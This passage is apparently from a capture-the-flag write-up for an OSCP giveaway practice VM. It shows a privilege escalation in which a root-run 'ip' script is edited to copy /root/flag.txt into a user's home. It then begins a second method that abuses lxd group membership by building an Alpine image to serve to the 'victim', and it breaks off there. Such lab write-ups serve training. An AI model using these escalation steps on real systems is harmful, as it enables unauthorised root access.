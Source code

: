 ``` text
-rw-r--r--  1 root root   66 Jul 11 17:15 .selected_editor
drwxr-xr-x  3 root root 4096 Jul  9 03:38 snap
drwx------  2 root root 4096 Jul  9 03:38 .ssh
-rw-------  1 root root 9922 Jul 11 17:15 .viminfo
```

### Retrieving the Flag

Now we know the name of the file, we can edit the ip script once again to copy the contents to the oscp user directory:

``` bash
#!/bin/sh
cp /root/flag.txt /home/oscp/flag.txt
chown oscp:oscp /home/oscp/flag.txt
```

One more reboot and the flag will be located in the oscp home directory and owned by oscp.

``` text
-rw-r--r-- 1 oscp oscp   33 Jul 25 16:19 flag.txt
-rwxrwxr-x 1 oscp oscp   84 Jul 25 16:18 ip
-rwxr-xr-x 1 root root   88 Jul  9 08:15 ip.old
-rw-r--r-- 1 root root  721 Jul 25 16:13 ls.txt
```

## Unintended Privilege Escalation \#2: lxd/lxc

The write up for this method was done by **TrenchesofIT (JJ)#5548** on Discord - you may view his write up at [https://www.trenchesofit.com/2020/07/25/oscp-voucher-giveaway-vm-using-unintended/](https://www.trenchesofit.com/2020/07/25/oscp-voucher-giveaway-vm-using-unintended/)

### oscp user's groups

```
-bash-5.0$ id
uid=1000(oscp) gid=1000(oscp) groups=1000(oscp),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
```

### Downloading lxd-alpine-builder github repo

```
kali@kali:~/tools/lxd/$ git clone https://github.com/saghul/lxd-alpine-builder.git
kali@kali:~/tools/lxd/$ cd lxd-alpine-builder/
kali@kali:~/tools/lxd/lxd-alpine-builder/$ ./build-alpine

kali@kali:~/tools/lxd/lxd-alpine-builder$ ls
alpine-v3.12-x86_64-20200719_2153.tar.gz  build-alpine  LICENSE  README.md
```

### Downloading to Victim

Running a simple web service on our Kali
